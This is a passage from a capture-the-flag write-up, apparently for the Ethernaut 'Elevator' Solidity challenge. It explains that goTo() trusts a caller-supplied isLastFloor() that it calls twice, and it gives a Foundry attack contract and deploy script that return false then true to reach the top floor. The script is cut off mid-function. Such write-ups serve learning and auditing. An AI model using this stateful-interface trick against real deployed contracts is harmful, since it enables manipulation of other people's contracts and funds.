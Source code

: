 ```solidity
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```
The `goTo()` function calls an external contract (through an interface called Building) to check `isLastFloor()` and this `isLastFloor()` is called twice in the function `goTo()` (Vulnerability lies here).
To reach the top, the first call should return false, and the second should return true .

**Here's the Foundry script that solves the challenge**
```foundry
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Elevator} from "../src/Elevator.sol";
import { Script } from "forge-std/Script.sol";
import { console } from "forge-std/console.sol";
import { Building } from "../src/Elevator.sol";



contract Attack is Building {

    Elevator elevator ;

    constructor(address _elevator) {
        elevator = Elevator(_elevator);
    }


    bool isSecondCall = false;

    function attack(uint256 _floor) external {
        elevator.goTo(_floor);
    }

    function isLastFloor(uint256 /*_floor*/) external override returns(bool){
        if(!isSecondCall){
            isSecondCall = true;
            return false;
        }else{
            return true;
        }
        
        
    }

}


contract ElevatorSolution is Script{

    Elevator elevator = Elevator(0x7592cB658E5F1a35Df01E932A7E9A4e45a46Cfd1);

    function run () external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        Attack attack = new Attack(address(elevator));
        attack.attack(1);

```